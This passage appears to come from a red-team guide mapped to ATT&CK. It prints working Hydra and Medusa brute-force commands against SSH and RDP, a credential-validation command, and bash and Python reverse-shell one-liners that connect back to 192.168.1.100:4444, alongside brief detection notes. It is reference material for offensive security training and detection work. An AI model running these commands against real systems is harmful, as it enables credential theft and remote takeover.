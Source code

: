 **Hydra**: Online password attacks.
```bash
# SSH brute force using known username list
hydra -L users.txt -P passwords.txt ssh://192.168.1.100
```

**Medusa**: Parallel login attacks.
```bash
# RDP brute force attack
medusa -h 192.168.1.100 -u administrator -P password_list.txt -M rdp
```

**CredNinja**: Credential validation.
```bash
# Validate credentials across a network
python cred_ninja.py -u administrator -p "Password123" -d example.com -t targets.txt
```

**Specific ATT&CK Mapping**:
- Hydra and Medusa implement brute force attacks to obtain valid credentials (T1078)
- CredNinja validates and tests stolen credentials across systems

**Detection Considerations**:
- Authentication failures are typically logged and may trigger alerts
- Successful authentication from unusual sources may be flagged
- Multiple failed attempts often trigger account lockouts

**Red Team Approach**:
```bash
# More targeted and cautious credential testing
hydra -l administrator -p "Spring2023!" -t 1 -f ssh://192.168.1.100
```

## Execution Frameworks and Utilities

Execution involves techniques used to run adversary-controlled code on local or remote systems. This tactic includes various methods for executing commands and scripts.

### Command and Scripting Interpreter (T1059)

This involves using command-line interfaces, scripting languages, or interpreters to execute commands.

#### Unix Shell (T1059.004)

Tools that leverage Unix shells for execution:

**Bash/Python One-liners**:
```bash
# Basic reverse shell
bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
